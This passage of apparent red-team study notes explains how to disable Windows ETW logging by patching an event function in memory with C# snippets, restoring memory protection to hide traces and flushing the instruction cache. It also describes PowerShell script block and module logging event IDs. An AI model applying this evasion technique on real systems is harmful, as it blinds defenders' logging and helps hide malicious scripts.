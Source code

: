```csharp
patch(new byte[] { 0xc2, 0x14, 0x00 });
Marshal.Copy(
	patch, 
	0, 
	etwEventSend, 
	patch.Length
);
```

**4. Restore original memory permission** (Optional cleanup)

To avoid leaving standing out evidence, you should put the original memory protection flags back.

```csharp
VirtualProtect(etwFunction, 4, oldProtect, &oldOldProtect);
```

In this case the `PAGE_EXECUTE_READ (0x20)` so the function can be executed but **not changed**.

**5. Flush the CPU instruction cache** (Optional cleanup)

Ensures the CPU sees the new code immediately instead of running an old cached version.

```csharp
Win32.FlushInstructionCache(
	etwFunction,
	NULL
);
```

Now we can compile these steps together and add them to a malicious script, **though** it will restrict more logs than you want.
## Providers via Policy
---
The ETW provides a lot of coverage out of the box, but it will disable some features unless specified because of the amount of logs they can create.

These features can be enabled by modifying the Group Policy Object, two of the most popular GPO providers coverage over PowerShell, including **script block logging** and **module logging**.

**EventID that relates to Script Block Logging, introduced in Pv4 and improved in Pv5:**

**Event IDs it uses:**

- **4103** - Logs command invocation (used in multiple contexts, not just script block logging).

- **4104** - Logs _actual script block execution_ (**this is the big one for defenders**).
	- Capture their full malicious script unless heavily obfuscated.

**EventID that relates to Module Logging, introduced in Pv3:**

- Tracks any PowerShell modules loaded and the data they send.
- Each module logs its own events.
- **What it logs:**

	- The **command name** being run (e.g., `Write-Host`, `Get-Process`, `Invoke-WebRequest`).
	
	- **Parameters** passed to that command.
	